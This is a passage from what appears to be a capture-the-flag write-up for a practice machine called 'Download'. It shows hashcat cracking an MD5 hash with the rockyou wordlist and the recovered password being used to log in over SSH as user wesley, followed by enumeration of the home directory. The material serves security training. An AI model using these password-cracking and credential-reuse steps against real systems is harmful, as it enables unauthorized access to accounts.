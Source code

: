I’ll try with basic MD5 ( `-m 0`) and it cracks instantly:

```
$ hashcat -m 0 wesley.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
f88976c10af66915918945b9679b2bd3:dunkindonuts

```

#### SSH

That password works as wesley on Download over SSH:

```
oxdf@hacky$ sshpass -p dunkindonuts ssh wesley@download.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-155-generic x86_64)
...[snip]...
wesley@download:~$

```

And I get `user.txt`:

```
wesley@download:~$ cat user.txt
a38f00da************************

```

## Shell as root

### Enumeration

#### Home Directory / File System

There’s nothing else of interest in wesley’s home directory:

```
wesley@download:~$ ls -la
total 40
drwxr-xr-x 5 wesley wesley 4096 Jul 19 15:35 .
drwxr-xr-x 3 root   root   4096 Jul 19 15:35 ..
lrwxrwxrwx 1 root   root      9 Apr 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 wesley wesley  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 wesley wesley 3771 Feb 25  2020 .bashrc
drwx------ 2 wesley wesley 4096 Jul 19 15:35 .cache
drwxrwxr-x 3 wesley wesley 4096 Jul 19 15:35 .local
-rw-r--r-- 1 wesley wesley  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Apr 21  2023 .psql_history -> /dev/null
drwx------ 2 wesley wesley 4096 Jul 19 15:35 .ssh
-rw-r----- 1 root   wesley   33 Nov  6 19:52 user.txt
-rw-r--r-- 1 wesley wesley   39 Jul 17 11:58 .vimrc

```

